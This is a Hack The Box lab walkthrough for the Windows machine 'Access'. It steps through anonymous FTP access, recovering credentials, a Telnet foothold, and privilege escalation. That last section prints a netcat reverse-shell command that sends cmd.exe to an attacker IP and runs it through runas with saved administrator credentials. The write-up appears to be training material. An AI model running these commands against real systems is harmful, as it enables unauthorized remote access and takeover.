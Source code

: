 ```yaml
---
title: "Access Walkthrough(Hack The Box)"
date: 2025-04-01
draft: true
description: "a description"
tags: ["Easy", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
 
---
```

## Reconnaissance #Windows 
- We got straight away Webserver on port 80 and Telnet, FTP on the nmap scan.
- ![[Pasted image 20241216220450.png]]
- Apparently anon login allowed in FTP
- Let's try that and the web page mentions LON-MC6 which leads to MS09-042 a vulnerability in Telnet
- Anyway when I try to login in FTP it worked but after that I can't access any directories it's simply giving timeouts
## Enumeration
- There was a e-mail file and database file from the db file there was the password for mail zip file
- Within the mail file a password for Telnet was there
## Foothold
- I got the initial foot in using telnet 
- Then got the user flag
- ![[Pasted image 20241216231714.png]]
## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use runas for running as something if appropriate constraints are valid
- Here in this case we got saved creds so first lets transfer nc.exe to the machine
- Then use this command to save to bat file
```
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with runas command with saved creds
```
runas /user:administrator /savecred c:\users\security\shell.bat
```
- Then we got Administrator access in our nc listener
- We got root access
- ![[Pasted image 20241216233210.png]]
